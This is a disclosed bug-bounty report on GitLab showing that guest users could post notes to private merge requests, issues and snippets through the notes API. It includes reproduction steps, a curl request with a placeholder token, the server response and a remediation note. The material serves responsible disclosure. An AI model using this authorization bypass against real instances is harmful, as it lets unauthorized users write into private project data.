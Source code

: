 # Users with guest access can post notes to private merge requests, issues, and snippets

## Report Details
- **Report ID**: 195140
- **URL**: https://hackerone.com/reports/195140
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-01-01T20:46:09.325Z
- **Disclosed**: 2017-01-23T23:09:37.689Z

## Reporter
- **Username**: jobert
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
# Vulnerability details
A user with guest access to a group / project can post notes to private merge requests, issues, and snippets.

# Impact
It seems it only allows an attacker to post notes to objects that the user doesn't have access to. I tried creating notes with slash commands, but unfortunately that didn't work. The hypothesis was to assign myself to an issue or merge request, and then access the object through the API. I'm unsure whether this is a security bug, but when a user is assigned to a merge request, it cannot access the MR through the web application, but it can access the MR through the API.

# Proof of concept
1. As a group / project owner, invite someone with guest access
2. As the same user, create a merge request (or issue or snippet, they all work) - this MR is not accessible by users with guest access
3. Accept the invitation as a new user and create an API token for your account
4. Now send a `POST` request to the notes API with a reference to the `MR`:

**Request**
```
curl -X POST -H "Private-Token: XXXX" http://gitlab-instance/api/v3/projects/1/merge_requests/2/notes -d 'body=Hello+world'
```

**Response**
```json
{
  "id": 1,
  "body": "Hello world",
  "attachment": null,
  "author": {
    "name": "Jobert Abma",
    "username": "jobertabma",
    "id": 1,
    "state": "active",
    "avatar_url": "...",
    "web_url": "..."
  },
  "created_at": "2017-01-01T20:33:44.360Z",
  "updated_at": "2017-01-01T20:33:44.360Z",
  "system": false,
  "noteable_id": 2,
  "noteable_type": "MergeRequest",
  "upvote?": false,
  "downvote?": false
}
```

When requesting the discussion page of the private MR, you'll notice that the note was posted, even though the user does not have permissions to do so.

{F148594}

# Remediation
Make sure the correct ACL is checked before creating the note.

## Attachments
- Screen_Shot_2017-01-01_at_21.45.42.png
